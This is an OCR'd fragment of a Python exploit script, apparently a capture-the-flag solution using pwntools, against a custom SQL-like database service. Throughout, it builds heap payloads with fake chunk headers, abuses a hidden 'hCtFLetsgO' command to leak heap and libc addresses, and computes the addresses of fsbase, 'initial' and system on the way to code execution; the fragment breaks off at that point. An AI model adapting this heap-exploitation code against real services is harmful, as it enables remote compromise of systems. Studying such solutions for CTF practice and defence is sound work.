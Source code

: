 ```py
            query += b' where %s'%cond
        sla(b'> ', query)

    def insert(table, cols, vals):
        query = b'insert into %s %s values %s'%(table, cols, vals)
        sla(b'> ', query)

    def update(table, col, val, cond=None):
        query = b'update %s set %s = %s'%(table, col, val)
        if cond != None:
            query += b' where %s'%cond
        res = sla(b'> ', query, timeout = 3)
        if res == b'':
            raise

    def decode(output):
        out = b''
        for i in range(len(output)):
            c = output[i].to_bytes(1, 'little')
            if c != '\\':
                out += c
            else:
                out += p8(int(output[i+2:i+4], 16))
                i += 4
        return out

    sla(b'>', b'create table go1 (a int, b str)')
    sla(b'>', b'create table go2 (a int, b str)')

    pay = p64(0x0) + p64(0x801)
    pay += b'A'*0x120
    pay += p64(0) + p64(0x6f1)
    pay = pay.ljust(0x800, b'A')
    pay += p64(0x0) + p64(0x21)
    pay += b'A'*0x10
    pay += p64(0x0) + p64(0x21)
    pay += b'A'*0x10

    insert(b'go1', b'(a, b)', b"(%d, '%s')"%(1, pay))
    sla(b'>', b"hCtFLetsgO go1 a = 'BBBBBBBB'")
    select(b'go1', b'*')
    p.recvuntil(b': ')
    heap = int(p.recvuntil(b',')[:-1]) - 0x2ff0
    f_chunk = heap + 0x69e0
    target = heap + 0x6230
    log.info('[HEAP] %#x'%heap)
    log.info('[Fake] %#x'%f_chunk)
    log.info('[Target] %#x'%target)

    pay = b'\0'*0x850

    insert(b'go2', b'(a, b)', b"(%d, '%s')"%(1, pay))
    update(b'go2', b'b', b'%d'%(f_chunk))

    select(b'go1', b'*')
    p.recvuntil(b'b: ')
    leak = p.recvuntil(b'query')[:-5]
    leak = decode(leak)

    libc = u64(leak[0x10:0x18]) - 0x21b1d0
    fsbase = libc - 0x2840
    initial = libc + 0x228E70
    system = libc + 0x50d70
```